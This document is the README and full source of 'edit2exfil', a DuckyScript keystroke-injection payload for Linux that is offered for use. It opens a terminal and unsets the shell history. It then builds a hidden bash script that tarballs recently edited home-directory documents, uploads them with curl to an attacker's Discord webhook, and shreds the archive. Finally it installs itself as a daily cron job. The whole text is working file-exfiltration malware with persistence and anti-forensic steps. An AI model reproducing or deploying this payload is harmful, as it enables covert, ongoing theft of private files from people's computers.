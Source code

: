 REM TITLE: edit2exfil

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux Release 2025-W19)

REM DESCRIPTION: (See below)

REM REQUIREMENTS: Place Discord webhook in the #WEBHOOK_URL constant on line 10 | Timing of when and how frequent the script will be ran (10:00 AM, daily by default) via `cronjob` can be changed in line 53.

-------

## edit2exfil

edit2exfil is a persistent file exfiltration payload that embeds itself as a `cronjob` on Linux systems via bash script, running silently in the background allowing for persistent exfiltration of updated files.

**The payload builds a bash script (.e2e.sh) that performs multiple tasks in the following order:**

1. a `net_check` conditional statement is utilized to see if the machine has internet connectivity. This is acheived by sending a `PING` to [Hak5.org](https://hak5.org). If `PING` was **NOT** successful, the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing). If the `PING` **WAS** successful, the script moves to a secondary conditional statement >
2. a `file_check` conditional statement is utilized to see if the following document file types have been modified (edited) in the past 24 hours in the /home directory (recursively): `.txt, .pdf, .docx, .doc, .csv, .xlsx, .png, .jpg, .jpeg, .sh`. If there are **NOT** any documents (with the previous file types) that have been modified in the past 24 hours in the /home directory (recursively), the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing), else >
3. The files are tarballed (.loot.tar.gz) and placed (hidden) in the /home directory for exfiltration >
4. The tarball is then exfiltrated via Discord webhook >
5. The tarball is then `shredded` to obfuscate its' presence >
6. End of script.

Total time for DuckyScript payload to run: `7 seconds`.

**DuckyScript Payload Workflow:**
  1. Terminal window is opened >
  2. Terminal history is unset (to obfuscate building of the payloads' bash script (.e2e.sh) > bash script is built >
  3. Execution permissions are given to .e2e.sh > .e2e.sh is added to `cronjob` to automatically run silently in the bachkground daily at 10:00 AM >
  4. Terminal window is closed >
  5. End of payload.

**Payload Bash Script (.e2e.sh):**
```
# Creating file_check function to see if the listed filetypes (and their respective documents) have been modified (edited) in the past 24 hours:
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}

# Creating hidden tarball function to tarball the listed documents (of the respective filetypes) that have been modified (edited) in the past 24 hours:
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}

# Creating net_check function to check for internet connectivity by send a PING to hak5.org:
net_check() {
    ping -c 1 hak5.org
}

# Creating global $user variable:
user="$(whoami)"

# If internet connection, check for files, if files, tarball, else exit:
if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi

# Exfiltrate tarball of found files to Discord:
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL

# Shred the tarball post exfiltration to obfuscate:
shred -fuz ~/.loot.tar.gz
```

**DuckyScript Payload (building of above script):**
```
REM Place Discord webhook and user constants:
DEFINE #WEBHOOK_URL https://discord.com/api/webhooks/PLACE/WEBHOOK/HERE
DEFINE #USER PLACE_USER_HERE

REM Begin attack:
ATTACKMODE HID
DELAY 1000

REM Opening terminal:
CTRL ALT t
DELAY 300

REM Unsetting terminal history and building ".e2e.sh":
STRINGLN unset HISTFILE
STRINGLN cat > .e2e.sh
STRINGLN_BASH
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}
net_check() {
    ping -c 1 hak5.org
}
user="$(whoami)"

if net_check; then
    if file_check; then
        tarball
    else
        exit 0
    fi
else
    exit 0
fi
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL
shred -fuz ~/.loot.tar.gz
END_STRINGLN
CTRL c

REM Granting execution permissions and adding ".e2e.sh" to cronjob to be executed at 10:00 AM, daily:
STRINGLN chmod +x .e2e.sh && (crontab -l; echo "0 10 * * * ~/.e2e.sh") | crontab - && exit
```
